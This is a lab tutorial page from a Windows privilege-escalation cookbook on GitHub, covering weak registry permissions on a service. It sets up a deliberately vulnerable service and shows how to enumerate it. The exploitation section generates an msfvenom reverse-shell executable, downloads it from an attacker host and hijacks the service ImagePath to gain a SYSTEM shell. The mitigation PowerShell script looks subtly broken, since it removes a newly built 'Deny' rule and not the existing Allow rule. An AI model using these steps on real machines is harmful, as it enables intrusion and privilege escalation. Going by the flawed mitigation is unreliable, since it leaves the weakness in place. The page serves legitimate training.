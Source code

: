 # Weak Registry Permissions

[Back to Main](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file#vulnerabilities)

## Table of Contents

- [Weak Registry Permissions](#weak-registry-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak registry permissions represent a vulnerability within the Windows registry resulting from misconfigured access controls. This issue involves specific registry keys or entries having permissions that permit unauthorized users to manipulate or access crucial system configurations. This vulnerability can be exploited by attackers who inject malicious code into registry keys, thus obtaining unauthorized privileged access.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv4\"
```

2) Download the file [Service4.exe](/Lab-Setup-Binary/Service4.exe) to the 'C:\Program Files\CustomSrv4' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 4" -BinaryPathName "C:\Program Files\CustomSrv4\Service4.exe" -DisplayName "Vuln Service 4" -Description "My Custom Vulnerable Service 4" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 4" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Registry-Permissions-Manual-Lab-Setup](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup.png)

5) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4':

![Weak-Registry-Permissions-Manual-Lab-Setup-2](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-2.png)

6) Right click on "Vulnerable Service 4" and choose the "permissions" option:

![Weak-Registry-Permissions-Manual-Lab-Setup-3](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-3.png)

7) Allow Full Access control on Users and then press "OK" button:

![Weak-Registry-Permissions-Manual-Lab-Setup-4](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-4.png)

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Registry Permissions' vulnerability is by using the custom PowerShell script named [WeakRegistryPermissions.ps1](/Lab-Setup-Scripts/WeakRegistryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakRegistryPermissions.ps1
```

Outcome:

![Weak-Registry-Permissions-Script-Lab-Setup](/Pictures/Weak-Registry-Permissions-Script-Lab-Setup-4.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Registry Permissions` vulnerability, you can use the following steps:

1) Open a Powershell and use the following command to enumerate registry permissions:

```
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" | fl
```

2) Use the following command to identify the image path of the service:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Manual-Enumeration](/Pictures/Weak-Registry-Permissions-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Registry Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceRegistryKeys
```

Outcome:

![Weak-Registry-Permissions-Tool-Enumeration](/Pictures/Weak-Registry-Permissions-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service4.exe
```

2) Open a listener in your kali machine.

3) Transfer the malicious executable in victim's machine:

```
iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
```

4) Change the image path for service:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Tasks\Service4.exe" /f
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Exploitation](/Pictures/Weak-Registry-Permissions-Exploitation-2.png)

6) Verify the reverse shell on your Kali machine:

![Weak-Registry-Permissions-Reverse-Shell](/Pictures/Weak-Registry-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Regisrty Permissions vulnerabilities, adjust permissions on Regisrty hives initiated through this mechanism. This limits unauthorized access and strengthens security measures:

1) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4'.

2) Right click on "Vulnerable Service 4" and choose the "permissions" option.

3) Remove the checkmark from the 'Full Control' box assigned to 'Users,' then click the 'OK' button.

However, you can use the following PowerShell script:

```
# Define the registry key path
$regKey = "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"

# Get the current ACL (Access Control List) for the registry key
$acl = Get-Acl -Path $regKey

# Specify the account and access rights to be removed
$account = "BUILTIN\Users"
$accessRights = [System.Security.AccessControl.RegistryRights]::FullControl

# Create a new access rule to remove FullControl
$accessRule = New-Object System.Security.AccessControl.RegistryAccessRule($account, $accessRights, "Deny")

# Remove the access rule from the ACL
$acl.RemoveAccessRule($accessRule)

# Set the modified ACL back to the registry key
Set-Acl -Path $regKey -AclObject $acl
```

## References

- [Windows registry information for advanced users Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)
- [About Registry Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/about-the-registry)
- [Registry Key Security and Access Rights Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-key-security-and-access-rights)
